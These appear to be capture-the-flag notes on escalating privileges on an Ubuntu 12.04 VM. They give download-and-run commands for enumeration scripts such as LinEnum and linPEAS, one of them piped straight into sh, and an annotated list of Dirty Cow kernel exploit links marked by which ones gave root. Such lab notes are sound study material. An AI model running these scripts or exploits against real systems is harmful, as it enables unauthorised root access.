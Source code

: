 # Some notes

## Identification

```shell
cat /etc/*-release
  DISTRIB_ID=Ubuntu
  DISTRIB_RELEASE=12.04
  DISTRIB_CODENAME=precise
  DISTRIB_DESCRIPTION="Ubuntu 12.04.5 LTS"
  NAME="Ubuntu"
  VERSION="12.04.5 LTS, Precise Pangolin"
  ID=ubuntu
  ID_LIKE=debian
  PRETTY_NAME="Ubuntu precise (12.04.5 LTS)"
  VERSION_ID="12.04"

uname -a
  Linux BornToSecHackMe 3.2.0-91-generic-pae \#129-Ubuntu SMP Wed Sep 9 11:27:47 UTC 2015 i686 i686 i386 GNU/Linux
```

---

## LinEnum.sh

LinEnum — is a bash-script that can do all the nasty job for you making all the adjustments described here cheat sheet’e. By and large, it has about 65 different checking operations, ranging from getting an information about the kernel version to searching potentially interesting SUID/GUID files. Besides, you can send a lock world to script that it would search in the all configurations and log-files. You can launch the checking like this: ./LinEnum.sh -k keyword -r report -e /tmp/ -t. After the scanning is complete you will get a detail report where the most interesting points will be highlighted with the yellow colour.

[https://github.com/rebootuser/LinEnum](https://github.com/rebootuser/LinEnum)

```shell
curl https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh > /tmp/LinEnum.sh
chmod +x /tmp/LinEnum.sh

/tmp/LinEnum.sh -k keyword -r report -e /tmp/
```

[Report here](logs/LinEnum-export-10-12-20.html)

---

## linPEAS.sh

LinPEAS is a script that search for possible paths to escalate privileges on Linux/Unix\* hosts. The checks are explained on book.hacktricks.xyz

Check the Local Linux Privilege Escalation checklist from [book.hacktricks.xyz](https://book.hacktricks.xyz/linux-unix/privilege-escalation)

[https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS)

```shell
curl https://raw.githubusercontent.com/carlospolop/privilege-escalation-awesome-scripts-suite/master/linPEAS/linpeas.sh | sh > linPEAS.log
```

[Report here](logs/linPEAS.html)

---

## LES: Linux privilege escalation auditing tool

LES tool is designed to assist in detecting security deficiencies for given Linux kernel/Linux-based machine. It provides following functionality:

- Assessing kernel exposure on publicly known exploits
- Verifying state of kernel hardening security measures

[https://github.com/mzet-/linux-exploit-suggester](https://github.com/mzet-/linux-exploit-suggester)

```shell
wget https://raw.githubusercontent.com/mzet-/linux-exploit-suggester/master/linux-exploit-suggester.sh -O les.sh
bash les.sh > les.log
```

[Report here](logs/les.html)

---

## Linux Exploit Suggester 2

This script is extremely useful for quickly finding privilege escalation vulnerabilities both in on-site and exam environments.

[https://github.com/jondonas/linux-exploit-suggester-2](https://github.com/jondonas/linux-exploit-suggester-2)

```shell
curl https://raw.githubusercontent.com/jondonas/linux-exploit-suggester-2/master/linux-exploit-suggester-2.pl > linux-exploit-suggester-2.pl
perl linux-exploit-suggester-2.pl
```

## [Report here](logs/linux-exploit-suggester-2.html)

## Dirty Cow - PoCs

[https://github.com/dirtycow/dirtycow.github.io/wiki/PoCs](https://github.com/dirtycow/dirtycow.github.io/wiki/PoCs)

### List of PoCs

- https://github.com/dirtycow/dirtycow.github.io/blob/master/dirtyc0w.c ❌
  - Allows user to write on files meant to be read only.
- https://gist.github.com/rverton/e9d4ff65d703a9084e85fa9df083c679 ❌
  - Gives the user root by overwriting /usr/bin/passwd or a suid binary.
- https://gist.github.com/scumjr/17d91f20f73157c722ba2aea702985d2 ❌
  - Gives the user root by patching libc's getuid call and invoking su.
- https://github.com/dirtycow/dirtycow.github.io/blob/master/pokemon.c ✅
  - Allows user to write on files meant to be read only.
- https://github.com/xlucas/dirtycow.cr
  - Allows a user to write on files meant to be read only.
- https://github.com/timwr/CVE-2016-5195
  - Allows user to write on files meant to be read only (android).
- https://github.com/rapid7/metasploit-framework/pull/7476
  - Metasploit module based on the cowroot PoC.
- https://github.com/scumjr/dirtycow-vdso
  - Gives the user root by patching the vDSO escapes containers/SELinux doesn't need suid.
- https://gist.github.com/mak/c36136ccdbebf5ecfefd80c0f2ed6747 ❌
  - Gives the user root by injecting shellcode into a SUID file.
- https://gist.github.com/KrE80r/42f8629577db95782d5e4f609f437a54 ✅
  - Gives the user root by injecting shellcode into a SUID file using PTRACE_POKEDATA .
- https://gist.github.com/ngaro/05e084ca638340723b309cd304be77b2 ❌
  - Gives the user root by replacing /etc/passwd
- https://gist.github.com/chriscz/f1aca56cf15cfb7793db0141c15718cd
  - Allows user to write on files meant to be read only. Supports writing to multiple pages, not just the first
- https://github.com/nowsecure/dirtycow
  - Allows the user to write on files meant to be read only, implemented as a radare2 IO plugin.
- https://github.com/sivizius/dirtycow.fasm
  - Gives the user root by injecting shellcode into a SUID file. implemented for amd64 in flatassembly.
- https://github.com/gbonacini/CVE-2016-5195
  -Gives the user root by replacing /etc/passwd
- https://github.com/mengzhuo/dirty-cow-golang/blob/master/dirtyc0w.go
  - Allows user to write on files meant to be read only. implemented for arm32/x86/amd64 in Golang faster than c implement.
- https://github.com/FireFart/dirtycow/blob/master/dirty.c ✅
  - Generates a new password hash on the fly and modifies /etc/passwd automatically. Just run and pwn.
